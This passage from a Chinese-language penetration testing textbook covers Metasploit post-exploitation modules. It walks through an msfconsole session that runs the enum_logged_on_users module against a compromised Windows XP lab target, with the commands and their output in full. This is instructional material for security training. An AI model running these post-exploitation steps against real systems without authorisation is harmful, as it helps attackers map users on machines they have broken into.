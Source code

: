 让我们继续以用户 *georgia* 登录到 XP 目标，并看看如何通过本地权限提升攻击将权限提升到 Windows 目标的 *System* 或 Linux 目标的 *root*。

## Metasploit 后期利用模块

到目前为止，我们已经使用了 Metasploit 模块进行信息收集、漏洞识别和利用。毫不奇怪，Metasploit 框架也有许多有用的模块用于后期利用阶段。Metasploit 的 *post* 目录包含用于本地信息收集、远程控制、权限提升等模块，覆盖多个平台。

例如，考虑模块 *post/windows/gather/enum_logged_on_users*。如 示例 13-6 所示，该模块将显示当前登录到目标系统的用户。将会话置于后台（使用 ctrl-Z 或 `background`）以返回主 Msfconsole 提示符。

示例 13-6. 运行 Metasploit 后期模块

```
msf > **use post/windows/gather/enum_logged_on_users**
msf post(enum_logged_on_users) > **show options**

Module options (post/windows/gather/enum_logged_on_users):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CURRENT  true             yes       Enumerate currently logged on users
   RECENT   true             yes       Enumerate Recently logged on users
  ❶SESSION                   yes       The session to run this module on.
msf post(enum_logged_on_users) > **set SESSION 1**
SESSION => 1
msf post(enum_logged_on_users) > **exploit**

[*] Running against session 1

Current Logged Users
====================

 SID                                          User
 ---                                          ----
 S-1-5-21-299502267-308236825-682003330-1003  BOOKXP\georgia

[*] Results saved in: /root/.msf4/loot/20140324121217_default_192.168.20.10_host.users.activ
_791806.txt ❷

Recently Logged Users
=====================

 SID                                          Profile Path
 ---                                          ------------
 S-1-5-18                                     %systemroot%\system32\config\systemprofile
 S-1-5-19                                     %SystemDrive%\Documents and Settings\LocalService
 S-1-5-20                                     %SystemDrive%\Documents and Settings\NetworkService
 S-1-5-21-299502267-308236825-682003330-1003  %SystemDrive%\Documents and Settings\georgia
```

我们像使用所有 Metasploit 模块一样使用后期模块：我们设置相关选项，然后输入 **`exploit`** 来运行模块。然而，对于后期利用模块，除了设置 `RHOST` 或 `SRVHOST`，我们还需要告诉 Metasploit 我们要运行后期利用模块的会话 ID ❶。然后我们将模块应用于会话 1，即 Windows XP 目标。
